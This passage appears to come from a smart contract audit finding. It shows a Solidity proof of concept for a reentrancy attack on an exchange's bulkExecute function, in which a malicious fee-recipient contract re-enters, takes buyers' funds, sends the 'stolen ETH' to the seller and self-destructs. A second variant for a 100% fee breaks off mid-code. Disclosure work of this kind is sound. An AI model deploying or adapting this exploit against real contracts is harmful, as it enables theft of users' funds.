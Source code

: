 ```
  │Stolen │                                                          │Balance│
  └───────┘                                                          └───────┘
```

Here is a possible implementation of the fee recipient contract:
```
contract MockFeeReceipient {

    bool lock;
    address _seller;
    uint256 _price;

    constructor(address seller, uint256 price) {
        _seller = seller;
        _price = price;
    }
    receive() external payable {
        Exchange ex = Exchange(msg.sender);
        if(!lock){
            lock = true;
            // first entrance when receiving fee
            uint256 feeAmount = msg.value;
            // Create empty calldata for bulkExecute and call it
            Execution[] memory executions = new Execution[](0);
            bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
            address(ex).call{value: 1}(data);

            // Now we received All of buyers funds. 
            // Send stolen ETH to seller minus the amount needed in order to keep execution.
            address(_seller).call{value: address(this).balance - (_price - feeAmount)}('');

            // selfdestruct and send funds needed to Exchange (to not revert)
            selfdestruct(payable(msg.sender));
        }
        else{
            // Second entrance after steeling balance
            // We will get here after getting funds from reentrancy
        }
    }
}
```

Important to know:
the exploit becomes much easier if the set fee rate is 10000 (100% of the price). This can be set by the seller. In such case, the fee recipient does not need to send funds back to the exchange contract. In such case, step #7-8 can be removed. Example code for 100% fee scenario:

```
pragma solidity 0.8.17;

import { Exchange } from "../Exchange.sol";
import { Execution } from "../lib/OrderStructs.sol";

contract MockFeeReceipient {

    bool lock;
    address _seller;
    uint256 _price;
    
    constructor(address seller, uint256 price) {
        _seller = seller;
        _price = price;
    }
    receive() external payable {
        Exchange ex = Exchange(msg.sender);
```